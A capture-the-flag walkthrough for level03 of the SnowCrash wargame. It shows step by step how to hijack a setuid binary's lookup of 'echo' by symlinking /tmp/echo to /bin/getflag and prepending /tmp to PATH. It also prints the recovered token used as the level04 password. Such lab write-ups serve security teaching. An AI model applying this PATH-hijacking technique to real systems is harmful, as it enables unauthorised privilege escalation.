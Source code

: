 
objdump -d level03 -M intel > main.asm

## Step 1: Create a Symbolic Link

Use the ln command to create a symbolic link named echo in the /tmp directory that points to /bin/getflag. This effectively tricks the level03 binary into calling getflag when it looks for the echo command.

``` console
level03@SnowCrash:/tmp$ ln -sf /bin/getflag /tmp/echo
```

ln: The command to create links.
-s: This flag tells ln to create a symbolic link.
-f: This flag forces the link to be created, overwriting any existing file or link.
/bin/getflag: The target command you want to run (the actual command).
/tmp/echo: The name of the symbolic link you're creating.

## Step 2: Modify the PATH Environment Variable

Adjust the PATH: You need to modify the PATH environment variable to prioritize the /tmp directory over the system directories. This ensures that when level03 tries to call echo, it finds your symbolic link first.

``` console
level03@SnowCrash:/tmp$ export PATH=/tmp:$PATH
```

PATH=/tmp:$PATH: This sets the PATH variable to include /tmp before the rest of the directories in the existing PATH.

## Step 3: Execute the Vulnerable Binary
Run the level03 Binary: Now that the symbolic link is set up and the PATH is adjusted, you can run the level03 binary.

``` console
level03@SnowCrash:/tmp$ ~/level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
## Step 4: Use token to enter level04

level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
